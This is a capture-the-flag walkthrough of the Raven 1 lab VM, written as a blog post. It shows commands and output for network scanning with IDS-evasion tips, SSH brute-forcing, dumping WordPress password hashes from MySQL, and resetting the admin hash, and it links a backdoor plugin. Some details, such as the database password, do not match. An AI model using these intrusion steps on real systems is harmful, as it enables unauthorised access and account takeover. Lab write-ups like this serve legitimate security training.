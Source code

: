 ```yaml
---
title: Raven 1 Walkthrough
author: alex
date: Tue 23 Jan 11:15:48 CEST 2024
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2024-01-23-raven-1-walkthrough/
image:
  path: VirtualBox_Kali_23_01_2024_12_30_26.png
  alt: Raven Security
---
```


Today I'm hacking into **Raven 1**. This VM is a **WordPress** website that we will be taking over through **MySQL**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining admin access

## Tools Used

- Netdiscover
- Nmap
- Dirb

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
 Currently scanning: 192.168.13.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     08:00:27:b9:a6:34      1      60  PCS Systemtechnik GmbH                                          
 192.168.1.57    08:00:27:f0:a8:9f      1      60  PCS Systemtechnik GmbH       
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.57
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT      STATE SERVICE VERSION
 
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40318/udp6  status
|   100024  1          47114/tcp   status
|   100024  1          52052/udp   status
|_  100024  1          58944/tcp6  status

47114/tcp open  status  1 (RPC #100024)

MAC Address: 08:00:27:F0:A8:9F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 199.638 days (since Thu Jul  6 21:57:36 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Before we open the browser, we should modify the file */etc/hosts* to add a line to make the IP point to **raven.local** like this:



Let's open the browser and search for **raven.local**. We find a web page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `dirb`: `sudo dirb http://192.168.1.57/`. And we find a couple of interesting directories: `/wordpress/` and `/wordpress/wp-admin/`. If we look around the blog, we can see a user publishing under the name **michael**.

Let's try to brute force SSH: `sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.57 -s22 -I ssh -v`

And we get a password: `michael:michael`.

Once inside, let's download **Linux Exploit Suggester** from our own Apache server. Now, if we run it, we can see some hardcoded credentials:

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-rw-rw- 1 www-data www-data 3134 Aug 13  2018 /var/www/html/wordpress/wp-config.php                              
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', '');
define('DB_HOST', 'localhost');
```

## Exploitation

So, let's run MySQL to try to get some creds! `mysql -u root -p` and when prompted for a password: `R@v3nSecurity`. Once inside the console, let's see the databases:

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)
```

OK, let's open `wordpress` databse:

```bash
mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)
```

And now, let's dump all the info in the table `wp_users`:

```bash
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BCyo7B9rkxgGPHpOuSInX8KE1izjh6. | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | 81dc9bdb52d04dc20036dbd8313ed055   | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)
```

Here, I have already changed `steven`'s password to 1234 hashed with MD5. So, let's change `michael`'s password as well: `update wp_users set user_pass=MD5('1234') where ID=1;` And, if we dump the table aganin:

```bash
mysql> update wp_users set user_pass=MD5('1234') where ID=1;
Query OK, 1 row affected (0.03 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from wp_users;
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | 81dc9bdb52d04dc20036dbd8313ed055 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | 81dc9bdb52d04dc20036dbd8313ed055 | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)
```

![WP Login](VirtualBox_Kali_23_01_2024_11_37_38.png)

Let's go back to `/wordpress/wp-login` and try to login using `michael:1234`. And voilà! Now we have taken control over the website with admin privileges. 

![WP Admin](VirtualBox_Kali_23_01_2024_11_38_00.png)

The CTF ends here but, why don't you play around uploading my backdoor plugin? **[Here](https://amtzespinosa.github.io/posts/wordpress-backdoor-plugin/)** yo can find it!
